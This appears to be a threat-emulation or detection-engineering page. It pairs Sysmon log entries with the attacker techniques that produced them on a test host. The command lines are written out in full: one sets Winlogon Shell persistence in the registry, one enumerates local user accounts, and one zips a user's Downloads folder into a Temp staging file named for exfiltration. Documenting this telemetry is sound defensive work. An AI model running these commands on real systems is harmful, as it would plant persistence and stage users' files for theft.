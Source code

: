 ### Persistence: Winlogon HKLM Shell Key Persistence - PowerShell

**Sysmon. EventID 1**

```
 RuleName - 
  UtcTime 2025-03-31 10:52:28.393 
  ProcessGuid {c5d2b969-73ec-67ea-4901-000000002901} 
  ProcessId 2796 
  Image C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe 
  Company Microsoft Corporation 
  OriginalFileName PowerShell.EXE 
  CommandLine powershell.exe -ExecutionPolicy Bypass -C "Set-ItemProperty \"HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\\\" \"Shell\" \"explorer.exe, C:\Windows\System32\cmd.exe\" -Force" 
  ParentProcessId 5464 

```

Sysmon. Registry Value Set 13

```
RuleName T1060 
  EventType SetValue 
  UtcTime 2025-03-31 10:52:28.664 
  ProcessId 2796 
  Image C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe 
  TargetObject HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell 
  Details explorer.exe, C:\Windows\System32\cmd.exe 
  User VICTIM\Administrator 

```

### Discover: Identify local users

Sysmon Log: Event ID 1

```
 UtcTime 2025-03-31 10:52:49.498 
  ProcessId 960 
  Image C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe  
  OriginalFileName PowerShell.EXE 
  CommandLine powershell.exe -ExecutionPolicy Bypass -C "Get-WmiObject -Class Win32_UserAccount" 
  User VICTIM\Administrator 
  ParentProcessId 5464 

```

### Collection: Zip a Folder with PowerShell for Staging in Temp

Sysmon Log. Process Creation

```
UtcTime 2025-03-31 10:53:10.602 
  ProcessId 2112 
  Image C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe 
  OriginalFileName PowerShell.EXE 
  CommandLine powershell.exe -ExecutionPolicy Bypass -C "Compress-Archive -Path $env:USERPROFILE\Downloads -DestinationPath $env:TEMP\exfil.zip -Force" 
  User VICTIM\Administrator 
  ParentProcessId 5464 
  ParentImage - 

```
